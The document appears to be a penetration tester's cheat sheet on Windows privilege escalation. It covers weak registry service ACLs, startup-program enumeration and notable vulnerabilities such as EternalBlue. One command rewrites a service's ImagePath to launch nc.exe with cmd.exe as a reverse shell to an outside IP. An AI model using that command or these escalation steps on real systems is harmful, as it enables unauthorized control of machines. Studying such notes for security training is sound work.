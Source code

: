 ```

        -Permissive Registry ACLs

        It is also worth searching for weak service ACLs in the Windows Registry. We can do this using accesschk.

        -Checking for Weak Service ACLs in Registry

        C:\> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services

        -Changing ImagePath with PowerShell

        PS C:\> Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"


        -Modifiable Registry Autorun Binary

        -Check Startup Programs

        We can use WMIC to see what programs run at system startup. Suppose we have write permissions to the registry for a given binary or can overwrite a binary listed. In that case, we may be able to escalate privileges to another user the next time that the user logs in.

        PS C:\> Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl



        possible folders for startup binaries

        dir /b "C:\Documents and Settings\All Users\Start Menu\Programs\Startup" 2>nul
        dir /b "C:\Documents and Settings\%username%\Start Menu\Programs\Startup" 2>nul
        dir /b "%programdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
        dir /b "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" 2>nul
        Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
        Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"









                ---Kernel Exploits


        (   https://msrc.microsoft.com/update-guide/vulnerability  )


        -Notable Vulnerabilities

        MS08-067 - This was a remote code execution vulnerability in the "Server" service due to improper handling of RPC requests. 
        Windows Server 2000, 2003, and 2008 and Windows XP and Vista


        MS17-010 - Also known as EternalBlue is a remote code execution vulnerability that was part of the FuzzBunch toolkit released in the Shadow Brokers leak. This exploit leverages a vulnerability in the SMB protocol because the SMBv1 protocol mishandles packets specially crafted by an attacker, leading to arbitrary code execution on the target host as the SYSTEM account. 

```